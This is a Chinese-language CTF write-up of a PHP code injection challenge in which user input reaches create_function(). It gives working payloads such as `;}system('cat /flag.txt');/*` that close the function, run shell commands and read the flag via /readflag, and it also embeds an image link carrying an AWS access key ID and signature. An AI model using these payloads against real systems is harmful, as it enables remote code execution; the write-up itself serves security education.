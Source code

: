 # Supercalifragilisticexpialidocious
- 這題可以輸入一段 php 去做檢查
- 根據程式碼我們可以知道以下邏輯：
1. 在輸入框輸入的值會被傳入到`code`的`GET`參數裡。
2. `code`參數的值會被拼接到`create_function()`，並且回傳`valid`。
3. 解析錯誤的值則會回傳`syntax error`。
![image](https://hackmd.io/_uploads/H1NPFhIoR.png)

由上述邏輯可知，當攻擊者輸入一段任意php code則可以達成**php code injection**
拿這段來看：
```php=
create_function('', $code);
echo "valid";
```
解題步驟：
1. 如果我們輸入`;`可以先截斷`create_function()`；`}`則可以截斷`try{}`。
2. 截斷後可以以php function執行任意指令，我們想達成RCE則可以用像`stsyem()`、`eval()`、`shell_exec()` ... etc。
    - 我們使用`system()`來執行任意指令，可以先用，system('ls')來看這個目錄下有什麼檔案。

3. 最後結束為了符合syntax，我們要先以`;`結束`system()`，再以`/*`註解掉後面被我們截斷的程式碼。

- 到目前為止整個拼起來就是`;}system(%27ls%27);/*`
    - 可以讀到：![image]([https://hackmd.io/_uploads/B1pnTh8o0.png](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_b349ed601f40f8036ab212a4fb8eafd9.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1726823767&Signature=NZwL7KYrqr%2B%2FEKEIkUq2QYvvLj4%3D))

4. 我們繼續讀檔，可以找到根目錄有一個`flag.txt`，嘗試：`;}system(%27cat /flag.txt%27);/*`，但卻讀不到。
5. 再以`;}system(%27ls -al /flag.txt%27);/*`查看，必須要`root`權限才能讀。
    - ![image](https://hackmd.io/_uploads/r1MKC3Io0.png)
6. 但發現根目錄底下也有一個編譯後的檔案：`/readflag`
7. 嘗試執行：`;}system(%27/readflag%27);/*`
    - ![image](https://hackmd.io/_uploads/Hy7kkTLsC.png)
